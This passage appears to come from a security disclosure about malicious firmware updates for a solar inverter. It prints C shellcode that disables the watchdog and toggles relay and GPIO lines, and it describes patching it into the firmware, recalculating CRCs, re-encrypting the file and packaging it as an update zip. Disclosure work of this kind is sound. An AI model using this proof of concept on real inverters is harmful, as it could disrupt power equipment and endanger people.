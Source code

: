 In the original MDSP update image - application part - a branch to the shellcode has been added after initialization, at address `0x0009A242`. The shellcode itself has been placed in some free place in the flash image. Here is the c code used to generate the shellcode:

```c
void dothat()
{
    long i;

    // disable all IRQ
    DINT;
    // allow access to system reg
    EALLOW;
    // switch off watchdog (! bits 5..3 have to be 101 !)
    WdRegs.WDCR.all = 0x00EF;

    // set GPIO0..5 as GPIO and OUTPUT
    GpioCtrlRegs.GPAMUX1.bit.GPIO4 = 0x0000;
    GpioCtrlRegs.GPAMUX1.bit.GPIO5 = 0x0000;

    GpioCtrlRegs.GPADIR.bit.GPIO4 = 0x1;
    GpioCtrlRegs.GPADIR.bit.GPIO5 = 0x1;

    // set OE as output, GPIO
    GpioCtrlRegs.GPBMUX1.bit.GPIO44 = 0x0000;
    GpioCtrlRegs.GPBDIR.bit.GPIO44 = 0x1;
    // clear bit == OE active
    GpioDataRegs.GPBCLEAR.bit.GPIO44 = 0x1;

	// endless loop
    while(1)
    {
        for(i = 0; i < 5000000; i++);

        // H T
        GpioDataRegs.GPATOGGLE.bit.GPIO4 =0x1;
        GpioDataRegs.GPATOGGLE.bit.GPIO5 =0x1;
        // relays
        GpioDataRegs.GPBTOGGLE.bit.GPIO45 =0x1;
        GpioDataRegs.GPCTOGGLE.bit.GPIO73 =0x1;
    }
}
```

A `sgu` file called `SUNSTONE-S_03011.01.20.sgu` has been built based on the modified binary, with all CRCs recalculated and using encryption as described previously. 

A `zip` file called `POCD.zip` has been generated with following files:

* `datetime` (not changed)
* `SUNSTONE-S_03011.01.20_DECRYPTED.sgu`
* `Version instruction.xml` with following content:
```xml
<?xml version='1.0' encoding='utf-8'?>
<root type="inverter">
	<point name="SUNSTONE-S_03011.01.20.sgu" type="inverter" update_seq="1" />
</root>
```
